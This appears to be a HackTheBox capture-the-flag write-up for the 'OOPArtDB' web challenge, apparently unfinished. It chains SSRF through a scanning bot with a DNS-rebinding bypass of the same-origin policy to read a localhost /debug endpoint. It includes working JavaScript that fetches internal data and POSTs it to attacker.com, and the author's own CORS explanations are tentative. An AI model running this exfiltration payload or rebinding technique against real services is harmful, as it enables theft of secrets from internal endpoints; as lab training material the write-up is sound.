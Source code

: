 ```yaml
---
title: HTB Insane Web OOPArtDB
description: Hardest challenge on HTB
date: 2024-02-20 02:45:01-0700
image: img/hackthebox.jpg
categories:
    - HackTheBox
tags:
    - web
    - htb
    - insane
---
```


## Intro

This challenge allows you to submit a URL to be "scanned" by a bot on the challenge server.
The flag is shown in the webapp once you have successfully accessed the appropriate page with the credentials of the "Overseer" user.

## Foothold

One of the first things I noticed in the source code, was the `/debug` and `/register` endpoint.
The `/debug` endpoint caught my attention because it could reveal the secret `REFERRAL_TOKEN` value which is required to register via `/register` as the higher privilege `researcher` type of user.

```js
// challenge/index.js

app.get("/debug", util.isLocalhost, (req, res) => {
    let utils = require("util");
    res.end(
        Object.getOwnPropertyNames(global)
        .map(n => `${n}:\n${utils.inspect(global[n])}`)
        .join("\n\n")
    );
});
```

When accessed via a GET request from localhost, it responds with a detailed inspection of all properties of the global object in Node.js.
It's a way to inspect the global environment for debugging purposes.
In all honesty, at this point I couldn't see how I could leverage this to get the flag, but it seemed like a good step up since I was obtaining higher permissions.
This is probably something I need to work on for the future.
This is clearly SSRF, but we can't see the output of the response, so we also need to combine it with a way to exfiltrate the response.
So then my next thought was to submit a URL I control.
The URL will contain a webpage that contains a script that will make a request to the `/debug` endpoint, and then submit the response from that request back to my own web server.

I hosted a web page on an EC2 instance, and had the following script run on it:

```javascript
function fetchData() {
  return fetch('http://localhost/debug')
    .then(response => {
      if (!response.ok) {
        throw new Error('Network response was not ok');
      }
      return response.text(); // Return the response as text
    })
    .catch(error => {
      console.error('Error fetching data:', error);
    });
}

// Function to send a POST request to `http://attacker.com/` with the fetched data after a delay of 3 seconds
function sendDataWithDelay(data) {
  setTimeout(() => {
    fetch('http://attacker.com/', {
      method: 'POST',
      headers: {
        'Content-Type': 'text/plain'
      },
      body: data
    })
    .then(response => {
      if (!response.ok) {
        throw new Error('Network response was not ok');
      }
      console.log('Data sent successfully');
    })
    .catch(error => {
      console.error('Error sending data:', error);
    });
  }, 3000); // Delay of 3 seconds (3000 milliseconds)
}

// Usage: Fetch data and then send it after a delay of 3 seconds
fetchData()
  .then(data => {
    if (data) {
      sendDataWithDelay(data);
    }
  });
```

This somewhat worked, but I wasn't able to receive the request to exfil.

![First request received](img/2.png)

This request could have gotten blocked due to the CORS policy, and upon some research it seemed that `http.server` does not allow controlling the `CORS` header from the commandline.
However, it is possible with a little scripting and help from [stackoverflow](https://stackoverflow.com/questions/21956683/enable-access-control-on-simple-http-server)

Then we can verify it worked with burpsuite.
I blurred out the IP address of my EC2 instance since I don't want it getting touched :).

![Initial Request](img/3.png) ![Response with CORS policy](img/4.png) ![Request to `/debug`](img/5.png) ![Request to `/debug` received](img/6.png)

However, the POST request never went out.
This was again due to the CORS policy on my local `http.server` not havint the correct value, which then made me look into what the CORS and CSP policy was on the actual challenge.

```javascript
app.use((req, res, next) => {
    // no XSS or iframing :>
    res.setHeader("Content-Security-Policy", `
        default-src 'self';
        style-src 'self' https://fonts.googleapis.com;
        font-src https://fonts.gstatic.com;
        object-src 'none';
        base-uri 'none';
        frame-ancestors 'none';
    `.trim().replace(/\s+/g, " "));
    res.setHeader("X-Frame-Options", "DENY");
    next();
});
```

I couldn't find anything to indicate what the CORS policy was so I assumed it was set as the default Same Origin Policy.
My testing also implied this, so now is the time to think of how to bypass it.

### CORS

CORS is a policy defined by the web server that determines what requests it will accept.
If you intercept a response from a web server with a CORS policy you will see the header:

```
Access-Control-Allow-Origin: *
```

This header can have multiple values to specify multiple domains, or a wildcard as shown above, or a `null` value.
It makes sense too because a site that holds private information probably doesn't want to share information to applications outside of its domain.
Anyways, there are 2 parts to CORS.
There is a preflight request that happens from the client to the web server to ensure that the cross-site request is allowed, and then the actual request.
However these only happen when non-standard requests are made I think, or when you need to read the headers or data of the response (TODO: Verify this)

### SOP

Same Origin Policy is similar to CORS, but it is enforced by the browser.
This policy just makes it so that a client can only request resources from the same origin, that is the same: **protocal**, **domain**, and **port**.
For example: a request from https://foo.com to http://foo.com wouldn't work because there is a different protocol between the two addresses.

### Bypass

So the problem here is that our site, lets call it `http://attacker.com` is trying to make a request to `http://localhost/debug`, but because the domain, and the port are different then the request is not allowed by the bot's browser.

And our goal is for the bot to visit our page, our page sends a request to the local server address of the challenge site, and then our page posts that request to us at another endpoint.

![The problem becomes obvious](img/7.png)

Enter DNS Rebind.
While searching for bypasses on hacktricks, I came across this method.
The attack relies on changing the IP address for a domain (rebinding it), very quickly, sort of like a race condition.
How does that help us here?
Well in the source code for the bot, we can see that it doensn't perform all its actions immediately, there are delays.
So the problem is that the client is making a request to `http://localhost/debug` from `http://attacker.com`, which gets blocked.
But what if during the delay between the bot visiting the attacker site, and then timing out, we rebind the address for `http://attacker.com` to instead point to `127.0.0.1`?

1. So the bot visits `http://attacker.com`, which will resolve to our real address (lets say it is `1.3.3.7`).
2. We rebind `http://attacker.com` to `127.0.0.1`, WHILE the bot still has the page loaded in their browser.
3. Then our script will run, and will send a request to `http://attacker.com/debug`, which is now actually `http://127.0.0.1/debug`, successfully grabbing the environment data that we need.
4. Then we make a post request to `http://1.3.3.7/exfil` containing the response to `http://attacker.com/debug` (actually `http://127.0.0.1/debug`), (and we set our CORS policy to allow requests from any domain), which successfully exfils the data to us.

A key element to making this attack work is having a low TTL on the DNS response, so the browser is forced to ask for the address twice.

I decided to use this [dns rebind site](https://lock.cmpxchg8b.com/rebinder.html) to facilitate the attack.
The first address will be that of my EC2 instance, and the second will be `127.0.0.1`.
Then we just need to run the attack a few times until we get the elements to line up properly.